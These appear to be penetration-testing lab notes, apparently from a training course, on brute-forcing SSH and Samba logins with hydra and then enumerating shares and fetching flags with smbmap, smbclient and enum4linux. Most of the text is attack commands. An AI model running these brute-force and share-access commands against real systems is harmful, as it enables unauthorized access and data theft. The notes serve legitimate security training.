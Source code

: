 #### Lab

```bash
john@attack> nmap 192.89.165.3
john@attack>  hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.89.165.3 ssh
```

The credentials are listed in the result of the above command, connect to SSH with credentials to grab the flags.

### Exploiting SAMBA

#### Description

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).
* SMB users port 445 (TCP). Howerver, originnaly, SMB ran on top of NetBIOS using port 139.
* Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
* SAMBA utilizes username and password authentication in order to obtain access to the server or a network share.
* We can perform a brute-force attack on the SAMBA server in order to obtain legitimate credentials.
* After obtaining legitimate credentials, we can use a utility called `SMBMap` in order to enumerate SAMBA share drives, list the content of the shares as well as download files and execute remote commands on the target.
* We can also utilize a tool called `smbclient`. smbclient is a client that is part of the SAMBA software suite. It communicates with a LAN Manager server, offering an interface similar to that of the FTP program. It can be used to download files from the server to the local machine, upload files from the local machine to the server as well as retrieve directory information from the server.

#### Lab

`nmap` `hydra` `smbclient` `smbmap` `enum4linux`

```bash
john@attack> nmap -sV 192.108.122.3
john@attack> hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.108.122.3 smb
john@attack> smbmap -u admin -p password1 -H 192.108.122.3
john@attack> smbclient -L 192.108.122.3 -U admin
john@attack> smbclient //192.108.122.3/shawn -U admin
smb> ls
smb> exit

john@attack> smbclient //192.108.122.3/nancy -U admin
smb> cd dir
smb> get flag
smb> exit
john@attack> cat flag

john@attack> enum4linux -a -u admin -p password1  192.108.122.3
```
